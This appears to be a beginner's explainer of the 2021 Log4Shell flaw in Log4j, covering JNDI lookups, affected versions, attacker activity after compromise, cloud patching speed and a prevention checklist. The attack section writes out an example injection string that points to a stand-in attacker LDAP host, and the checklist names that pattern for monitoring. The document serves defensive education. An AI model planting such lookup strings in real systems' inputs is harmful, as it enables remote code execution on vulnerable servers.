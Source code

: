 Log4j is a Java logging library; the 2021 “Log4Shell” flaw let a simple text string in logs trigger a JNDI network lookup and, in vulnerable setups, load and run attacker code. Organizations fixed it by upgrading Log4j, disabling risky lookups, and tightening egress/network controls.



What Log4j is
    A library developers use to write events to logs (errors, requests, etc.), with features like formatting, filtering, and output to files or consoles.

    Log messages can include placeholders that Log4j replaces at runtime using “lookups,” such as pulling the Java version or environment values before writing the log line.



What JNDI is
    A Java API for finding resources by name (e.g., LDAP, RMI, DNS), used to look up objects like data sources or configuration in application servers; it exists independently of logging.

    Log4j 2 added a JndiLookup feature so placeholders like ${jndi:...} could perform a JNDI lookup during logging; this coupling is what created the risk path.



How the attack worked (first principles)
    Attacker-controlled input reaches logs: For example, a crafted HTTP header or chat message contains ${jndi:ldap://attacker/…}.

    Log4j processes ${...}: The jndi lookup makes the JVM contact the attacker’s LDAP/RMI endpoint and fetch an object reference or data.

    Class loading → code runs: In vulnerable defaults, that reference could cause the JVM to load and initialize attacker-supplied classes from a remote URL, effectively remote code execution.



Versions involved
    JndiLookup present and exploitable across Log4j 2.0‑beta9 through 2.14.1 under typical configurations (CVE‑2021‑44228).

    uccessive fixes: 2.15.0 reduced risk; 2.16.0 removed message lookups and disabled JNDI by default; 2.17.x further hardened behavior; long‑term guidance is to upgrade to a hardened release.




Why it wasn’t found earlier
    A benign feature chain turned dangerous: log placeholder expansion + JNDI + remote class loading was an unexpected combo in a logging library.

    Trust boundary mistake: Logged text was treated as inert, but the lookup turned it into an active network call; widespread transitive use hid the risk for years.



What attackers did after compromise
    Deployed cryptominers, backdoors, C2 beacons, and post‑exploitation tools to persist and monetize access at scale.

    Stole data and credentials, pivoted laterally, and joined compromised hosts to botnets for DDoS or further scanning.



Who was affected
    Not a single “most affected” victim: the issue spanned major services and governments; estimates saw exploitation attempts across a large fraction of business networks globally shortly after disclosure.



How fast cloud environments patched
    Early telemetry: roughly 30% of vulnerable cloud resources patched in 6 days and ~45% by day 10; full coverage typically took weeks or longer due to discovery and dependency churn.

    Cloud providers patched their managed services quickly, but customers still had to patch their own workloads per shared responsibility.



AWS-specific notes (beginner lens)
    AWS patched its managed services and published guidance, scanners, and mitigations; customers still needed to update their own apps, containers, and VMs using Log4j.

    Some AWS hot patches required later updates due to side effects; upgrading Log4j in workloads remained essential.




Simple prevention checklist
    Upgrade Log4j to a hardened version (2.17.x+), or vendor-recommended LTS patch line; avoid enabling JNDI/message lookups.

    Block outbound LDAP/RMI and restrict egress from app servers; monitor for ${jndi:…} patterns and unusual outbound connections.

    Treat all user input as untrusted in logs; avoid runtime interpolation features that can trigger network calls from log content.



One-page mental model
Log4j = logging; JNDI = lookup service; ${jndi:…} in logs used to be “active.” If untrusted text hit logs, it could make the app reach out and pull remote code. Fix by upgrading Log4j, disabling risky lookups, and keeping servers from calling out to untrusted endpoints.